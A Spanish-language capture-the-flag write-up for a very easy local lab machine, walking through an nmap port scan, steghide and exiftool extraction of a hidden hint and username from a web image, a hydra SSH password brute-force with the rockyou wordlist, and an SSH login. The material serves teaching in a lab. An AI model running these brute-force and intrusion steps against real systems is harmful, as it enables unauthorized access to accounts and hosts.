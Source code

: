
**Autor:** [BorazuwarahCTF

**Dificultad:** Muy Fácil

**Fecha de creación:** 28/05/2024


DESPLIEGUE

```
bash auto_deploy.sh borazuwarahctf.tar
```


![Img](./images/Pasted%20image%2020241106191136.png)






------------------------
PROCEDIMIENTO:

Tenemos la IP: 
```
172.17.0.2
```



---------------------------

RECONOCIMIENTO

```
nmap -p- -sS -sV -sC --min-rate 5000 -n -vvv -Pn 172.17.0.2
```

`-p-` ⮞ aplicar reconocimiento a todos los puertos  
`--open` ⮞ solo a los que estén abiertos  
`--min-rate 5000` ⮞ para enviar paquetes más rápido  
`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida  
`-vvv` ⮞ conforme descubre un puerto nos lo muestra por pantalla  
`-n` ⮞ no aplica la resolución DNS (tarda mucho en el caso de que no pongamos dicho parámetro)  
`-Pn` ⮞ ignora si esta activa o no la IP  
`-oG` ⮞ exportamos el resultado en formato grepeable (para extraer mejor los datos con herramientas como grep, awk)

![Img](./images/Pasted%20image%2020240917192325.png)

Nos vamos a la página web y nos sale :
![Img](./images/Pasted%20image%2020240917193213.png)

Nos descargamos la imagen y veremos si tiene algún archivo oculto. Haremos el siguiente comando:

```
steghide extract -sf imagen.jpeg
```

![[Pasted image 20240917193813.png]]

```
cat secreto.txt
```


![[Pasted image 20240917193842.png]]


Lo cual nos da una pista. Buscaremos  más información dentro de esta imagen como son los metadatos , usaremos `exiftool`, por lo cual usando el comando 

```
exiftool imagen.jpeg
```

![[Pasted image 20240917194039.png]]

Y ahí tenemos un usuario `borazuwarah`

Ahora fuerza bruta. 

```
hydra -l borazuwarah -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

![[Pasted image 20240917194231.png]]

```
ssh borazuwarah@172.17.0.2
```

![[Pasted image 20240917194342.png]]

Y ya estamos adentro. 
